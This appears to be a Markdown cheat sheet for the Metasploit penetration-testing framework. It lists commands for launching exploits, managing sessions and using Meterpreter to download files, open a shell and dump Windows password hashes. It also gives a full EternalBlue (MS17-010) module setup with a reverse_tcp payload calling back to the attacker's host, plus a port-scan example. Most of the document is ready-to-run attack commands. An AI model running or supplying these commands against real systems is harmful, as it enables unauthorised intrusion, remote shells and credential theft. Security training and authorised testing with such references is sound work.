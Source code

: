 ## 💥 Launching an Exploit
```bash
exploit
```
- Runs the exploit and attempts to compromise the target.

## 🛠️ Post-Exploitation
| Command                       | Description                              |
|-------------------------------|------------------------------------------|
| `sessions`                     | List active sessions                     |
| `sessions -i <session_id>`     | Interact with a specific session         |
| `background`                   | Background current session               |
| `exit`                         | Exit from a session                      |
| `meterpreter`                  | Start a Meterpreter session              |

## 💡 Meterpreter Commands

| Command                     | Description                                 |
|-----------------------------|---------------------------------------------|
| `sysinfo`                   | Get system information                      |
| `getuid`                    | Get user ID (whoami equivalent)             |
| `ps`                        | List running processes                      |
| `kill <PID>`                | Kill a process by PID                       |
| `download <file_path>`      | Download a file from the target machine     |
| `upload <file_path>`        | Upload a file to the target machine         |
| `shell`                     | Get a command shell on the target machine   |
| `hashdump`                  | Dump password hashes from Windows SAM       |

## 🚪 Exploiting Windows SMB (EternalBlue)
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <target_ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```

## 🚨 Auxiliary Scans
| Command                       | Description                                    |
|-------------------------------|------------------------------------------------|
| `use auxiliary/scanner/portscan/tcp` | TCP port scanner                            |
| `set RHOSTS <target_ip_range>`  | Set target range (e.g., 192.168.1.0/24)       |
| `run`                          | Run the auxiliary scanner                      |
